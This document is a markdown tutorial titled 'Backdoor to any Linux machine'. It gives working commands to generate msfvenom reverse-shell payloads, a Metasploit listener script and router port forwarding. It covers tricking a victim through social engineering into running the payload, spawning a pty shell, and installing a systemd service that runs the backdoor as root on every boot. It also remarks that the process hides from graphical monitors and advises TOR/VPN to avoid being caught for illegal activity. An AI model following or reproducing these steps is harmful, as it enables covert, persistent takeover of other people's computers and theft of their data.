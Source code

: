 # Backdoor to any Linux machine

**Myth:** It is said that Linux is secure and hasn't any viruses etc. Let's take a look. There is a general claim that no need for Antivirus software is required either. Well...

We won't create a true virus here. Just a backdoor. However, it opens up many possibilities for further hostile actions against Linux victim machines, including polluting the target Linux machine with multiple nasty viruses.

This is just a short technical demonstration without any true hostile attempts. Utilizing the method requires social engineering tactics, as well.

This method does not require any server software running on the victim's Linux machine. Just a simple client machine is OK.

**This tutorial assumes you will gain access to `sudo` or `root` terminal on victim's Linux machine by using social engineering tactics.**

--------------------

## How-to

**1) Generating backdoor.** Generate a simple Linux backdoor payload. On attacker machine, execute either:

A) Linux x86 binary backdoor payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<my_global_ip> lport=<my_global_port> -f elf -a x86 > ~/reverse_backdoor'
```

B) or alternatively generate a shell script backdoor payload:

```
msfvenom -p cmd/unix/reverse_bash LHOST=<my_global_ip> LPORT=<my_global_port> -f raw > reverse_backdoor_bash.sh
```

--------------------

**2) Router settings.** If you are behind a router, do PAT (Port Address Translation) where incoming connections to your router are coming from `<my_global_port>`. Let the router forward those to `<my_local_port>` in your local network.

**3) Metasploit listener script.** On your attack machine, add following file (edit contents as needed) and save it as 'backdoor-listener.rc'

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set lhost <my_local_ip>
set lport <my_local_port>
exploit

This is a metasploit script file we will utilize later. Please pay attention to `<my_local_ip>` and `<my_local_port>` values above.

---------------------------

<my_global_ip>   = IPv4 which is reachable from outside (WAN IPv4), usually provided by your ISP
<my_global_port> = Port number which is accessible from outside (WAN) networks
<my_local_ip>    = IPv4 used by your attack machine on the local network, usually static one or provided by a router
<my_local_port>  = Port number which is accessible on your local network

---------------------------

**4) Start Metasploit listener.** Run the above Metasploit script file with `sudo msfconsole -r backdoor-listener.rc` and keep the listener open on your Linux attack machine.

**5) Victim enticement - execution of the backdoor.** Send msfvenom-generated `reverse_backdoor` binary executable to the Linux victim and encourage him/her to execute it. Requires social engineering tactics.

**6) Who am i and which is my shell?** Once you have connection to the victim's Linux machine, run `whoami`, after which run `shell`. Both in meterpreter console view.

**7) Open Python-based Bash pseudo-shell.** We assume that the victim has python environment. On the opened empty shell view, just run the following commands (we assume the current user's shell is `/bin/bash`):

```
which python
python -c "import pty; pty.spawn('/bin/bash');"
```

On that code above, we check python binary existence on the Linux victim machine. If OK, then you can open bash with pseudo terminal python function.

**8) Prepare your foothold on victim's machine - persistence.** On victim's machine, copy 'reverse_backdoor' binary into `/usr/local/bin/` folder, and run

```
chmod +x /usr/local/bin/reverse_backdoor
```

**9) Add new auto-starting systemd service** Now, insert a new systemd service file 'reverse-backdoor.service' into `/usr/lib/systemd/system/` as follows:

echo -e "[Unit]\nDescription=SSH backdoor\nAfter=network.target network-online.target\n\n[Service]\nType=oneshot\nRemainAfterExit=yes\n\nExecStart=/usr/local/bin/reverse_backdoor\nExecStop=/usr/local/bin/reverse_backdoor\n\n[Install]\nWantedBy=multi-user.target" > /usr/lib/systemd/system/reverse-backdoor.service

**10) Enable the systemd service.** Run

```
sudo systemctl enable reverse-backdoor.service
```

**11) Test the systemd service.** To check if the service file succeeds, check the output of:

```
sudo systemctl start reverse-backdoor.service
```

**12) You are able to connect after victim's reboot.** If Ok, you should be able to login to the victim's Linux machine after rebooting it. Just make sure you have Metasploit TCP Handler/Backdoor listener on stand-by on your Linux attack machine.

-----------------------------------------

**Contents of /usr/lib/systemd/system/reverse-backdoor.service**

The following systemd service file contents is supposed to be added to `/usr/lib/systemd/system/reverse-backdoor.service` on victim's Linux machine.

```
[Unit]
Description=Backdoor
After=network.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/home/penguin/reverse_backdoor
ExecStop=/home/penguin/reverse_backdoor

[Install]
WantedBy=multi-user.target
```
-----------------------------------------

**Systemd vs. init**

Of course, you can adapt this systemd service file as `init` script as well. However, majority of Linux distributions come with systemd nowadays, except for Gentoo etc.

**Testing scope**

The instructions have been tested and they work as expected. You gain root access on the victim's Linux machine, no matter which network the victim has connected to. You don't need to care about passwords either since the backdoor is executed as root during system boot-up. Actually, you can change the password and do what the hell you want on the victim's Linux machine. According to my remote tester (who was behind NAT), the opened hostile bash shell process is not visible on graphical system monitor view (this applies to XFCE, at least).

Victim can still detect the hostile shell process, other processes and opened network sockets with `netstat/sockstat` commands. However, distinguishing them from friendly processes is another thing...

-----------------------------------------

Simple attack schema:

```
<victim's Linux machine>  <--->  <ISP, etc.>  <--->  <your router>  <--->  <your attack Linux machine>

 <payload executable>                                                        <backdoor listener>
                  |->>       <my_global_ip>  <------------->  <my_local_ip>   <<-|
                  |->>     <my_global_port>  <------------->  <my_local_port> <<-|

    <execute file>      <--------------------------------------------->   <access victim's machine>
                            <<- valuable data, malicious commands ->>
```

In hardened scenarios, using TOR/VPN is recommended to avoid getting caught if illegal activies are performed.

-----------------------------------------
